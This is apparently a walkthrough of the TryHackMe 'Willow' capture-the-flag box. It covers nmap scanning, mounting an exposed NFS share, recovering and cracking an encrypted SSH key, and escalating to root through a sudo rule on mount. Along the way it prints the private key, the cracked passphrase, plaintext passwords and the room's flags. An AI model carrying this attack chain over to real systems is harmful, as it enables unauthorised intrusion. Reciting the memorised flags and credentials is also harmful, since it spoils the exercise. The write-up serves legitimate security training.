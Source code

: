 > Willow 

**export IP=10.10.78.228**

# Nmap 

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
2049/tcp open  nfs_acl syn-ack ttl 63 2-3 (RPC #100227)
```

In Port 80, we have hex data. => It says our SSH private key is here.

Let's check NFS now. 

showmount -e $IP

```
/var/failsafe *
```
mkdir /mnt/Willow
mount 10.10.18.231:/var/failsafe /mnt/Willow/

And looking at Willow we have `rsa_keys`

```
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627) => We have n and d
```

`https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html` we can decrypt the rsa key.

Placing n => 37627 and d => 61527 we have our RSA private key.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

It is asking for a pass phrase . Let's crack it with John.

ssh2john.py id_rsa > ssh_hash
sudo john --wordlist=rockyou.txt ssh_hash

```
wildflower       (id_rsa)
```

And we are in !!

And we have `user.jpg` . Let's transfer it to our system using scp

scp -i id_rsa willow@10.10.18.231:/home/willow/user.jpg ./user.jpg

# user.txt

```
THM{beneath_the_weeping_willow_tree}
```

# Privilege Escalation

sudo -l

```
User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

And looking at /dev we find `hidden_backup`. It has `creds.txt`

```
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```

Looking at /root/root.txt it says they gave us the flag already.

Running steghide we require a password.
Let's try root password

steghide extract -sf user.jpg => root.txt

#root.txt

```
THM{find_a_red_rose_on_the_grave}
```